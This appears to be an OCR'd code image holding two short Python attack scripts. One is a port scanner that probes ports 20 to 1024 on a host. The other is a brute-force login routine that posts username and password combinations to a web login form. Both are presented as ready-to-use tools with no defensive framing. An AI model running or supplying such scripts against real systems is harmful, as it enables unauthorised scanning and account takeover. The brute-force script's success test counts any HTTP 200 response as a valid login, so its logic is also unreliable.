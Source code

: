 #.Port Scanner
import socket

def port_scanner(host):
    print(f"Scanning ports on {host}...")
    for port in range(20, 1025):
        s = socket.socket()
        s.settimeout(0.5)
        try:
            s.connect((host, port))
            print(f"Port {port} is open")
        except:
            pass
        s.close()

# Example
port_scanner("127.0.0.1")


#. BRUTE FORCE LOGIN
import requests

def brute_force_login(url, username_list, password_list):
    for username in username_list:
        for password in password_list:
            data = {'username': username, 'password': password}
            response = requests.post(url, data=data)
            if "Welcome" in response.text or response.status_code == 200:
                print(f"Valid login found: {username}:{password}")
                return

# Usage
brute_force_login("http://example.com/login", ["admin", "user"], ["1234", "admin123"])
